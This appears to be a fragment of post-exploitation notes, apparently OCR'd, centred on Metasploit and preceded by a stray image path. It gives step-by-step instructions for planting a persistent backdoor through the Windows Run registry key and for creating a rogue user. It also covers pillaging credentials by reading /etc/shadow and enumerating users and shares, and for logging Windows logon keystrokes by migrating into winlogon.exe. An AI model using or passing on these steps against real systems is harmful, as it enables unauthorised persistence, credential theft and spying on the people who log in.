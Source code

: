 Use: exploit/multi/handler to setup a listener for the connection.

Backdoor manual:

1. Create backdoor with metasploit

2. edit registry key:

> reg setval –k [registry_key_path] –d [value_of_the key] –v [name_of_the_key]

example: HKLM\\software\\microsoft\\windows\\currentversion\\run  -d "C:\Windows\my_bd.exe" -v bd_name

3. New users - create a new user on the machine to remotely connect to.

## Pillaging useful commands and scripts

from metasploit while in a meterpreter session(can be done with a backgrounded session:

> run post/windows/gather -  this will display all post gathering scripts for a windows device in metasploit. 

> run post/linux/gather - shows all linux post exploit gathering scripts in metasploit.

> run post/multi/gather - shows scripts for all OS's.

Some useful scripts:

> enum_services - shows all services running on the remote machine. 

> ps - shows all processes running on a linux system

> Linux password and users:

 - cat /etc/passwd or /etc/shadow

> Windows users:

	- net user

	- net user /domain - shows domain controller and users

	- net localgroup - shows groups

	- net localgroup <group name> - shows members of the group

	- net share - shows smb shares

		- run enum_shares - metasploit module to enumerate shares

## Log keystrokes during login

> winlogon.exe can be exploited to try and gather windows logon information

While in meterpreter:

1. Migrate to the winlogon.exe pid with "getpid".

2. keyscan_start.

3. keyscan_dump - repeat until keystrokes dumped/someone logs on.

